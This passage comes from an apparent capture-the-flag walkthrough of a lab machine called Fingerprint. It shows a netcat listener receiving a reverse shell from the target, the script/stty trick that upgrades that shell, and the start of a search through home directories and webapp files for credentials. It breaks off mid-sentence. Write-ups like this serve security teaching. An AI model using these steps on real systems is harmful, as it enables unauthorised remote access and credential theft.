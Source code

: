 ```

oxdf@hacky$ nc -lnvp 443                                          
Listening on 0.0.0.0 443
Connection received on 10.10.10.141 54908
bash: cannot set terminal process group (1161): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$

```

I’ll use the standard `script` trick to upgrade the shell:

```

www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ script /dev/null -c bash
Script started, file is /dev/null
www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ 

```

## Shell as john

### Enumeration

#### Homedirs

As I noted in the file read vuln above, there are two users with homedirs on the box:

```

www-data@fingerprint:/home$ ls
flask  john

```

I can’t access john (which means it’s likely where I’m to head next).

`flask` has the webapp from port 80. There’s nothing too exciting here given I was already able to pull and look at the source.

#### Webapps

It’s always worthwhile to look for creds in the webapps. The flask app doesn’t have much beyond the signing secret. Because it’s using a file (SQLite), it doesn’t need a password to connect.

The Java apps are a bit more complicated. I know there’s a `User.java` file, so I’ll find that first:
